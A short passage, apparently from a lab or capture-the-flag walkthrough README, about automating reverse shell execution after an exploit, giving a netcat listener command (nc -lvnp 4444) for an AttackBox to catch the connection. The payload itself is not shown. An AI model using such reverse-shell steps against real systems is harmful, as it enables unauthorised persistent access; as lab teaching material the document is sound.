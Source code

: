 # Automating-Reverse-Shell-Execution
Instead of executing commands one by one, we can use the exploit to send a reverse shell payload, which will give us persistent access.

First, we have to start a reverse shell listener in our VM or AttackBox that will catch the connection using the command:

nc -lvnp 4444

